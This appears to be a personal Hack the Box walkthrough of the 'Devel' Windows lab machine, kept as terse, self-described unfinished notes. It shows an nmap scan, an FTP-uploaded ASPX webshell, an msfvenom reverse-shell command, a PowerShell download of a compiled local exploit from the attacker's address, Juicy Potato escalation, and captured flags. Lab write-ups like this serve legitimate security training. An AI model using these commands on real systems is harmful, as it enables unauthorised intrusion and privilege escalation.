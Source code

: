 ```yaml
---
title: Devel - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Devel.png
---
```

---
title: 2024-10-12-Devel - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Devel.png
---
#windows #manual #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.5 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 16:09 EDT
Nmap scan report for 10.10.10.5
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.94 seconds

```

### Enumeration


##### 21
FTP anonymous![Image](/assets/Screenshot 2024-09-09 at 4.29.40 PM.png)
big nono cve![Image](/assets/Screenshot 2024-09-09 at 4.41.32 PM.png)
FTP upload![Image](/assets/Screenshot 2024-09-09 at 6.25.26 PM.png)
ASP/X vulnerability upon research of version
webshell prompt!![Image](/assets/Screenshot 2024-09-09 at 6.26.19 PM.png)
nishang shell served bby python server (Invokerevtcp)

version information![Image](/assets/Screenshot 2024-09-09 at 6.58.49 PM.png)
Local privesc to fit our needs
![Image](/assets/Screenshot 2024-09-09 at 7.02.07 PM.png)
Compiling notes in exploit db![Image](/assets/Screenshot 2024-09-09 at 7.04.56 PM.png)
update and install mingw-w64
compile `i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`
push from box to target `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:80/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

##### 80
Landing Page ![Image](/assets/Screenshot 2024-09-09 at 4.27.54 PM.png)
Microsoft IIS server 7.5
upload aspx and set up listener
make and move to temp dir to transfer juicy potato and revshell (rev shell `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9999 -f exe > reverse.exe`)

move files with certutil

set up listener for higher priv shell
use JP to escalate `jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`. Make sur eto use x86 for this box, as its 32 bit.

Boom ![Image](/assets/Screenshot 2024-10-04 at 9.30.24 PM.png)

USER:aeb10d6e0f12af213b3313aaf5d006a3

ROOT:e4c733d153de83f5cb330af1ebc6470e
USER: e1b33ec1245ae20d092a935b35203c7e
